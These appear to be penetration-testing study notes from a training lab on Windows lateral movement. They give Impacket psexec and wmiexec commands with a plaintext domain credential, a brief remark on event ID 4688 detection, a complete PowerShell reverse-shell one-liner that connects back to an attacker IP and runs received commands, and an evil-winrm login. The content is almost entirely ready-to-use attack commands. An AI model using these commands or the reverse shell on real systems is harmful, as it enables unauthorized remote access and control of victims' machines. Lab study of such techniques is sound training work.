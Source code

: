 ## psexec
```powershell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 
```

## wmiexec
```powershell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: A new process has been created, they will see a new process created to spawn cmd.exe and issue a command. This isn't always malicious activity since many organizations utilize WMI to administer computers, but it can be a tip-off in an investigation

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.121',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

## evil-winrm
```bash
evil-winrm -u user -p password -i 10.10.10.161
```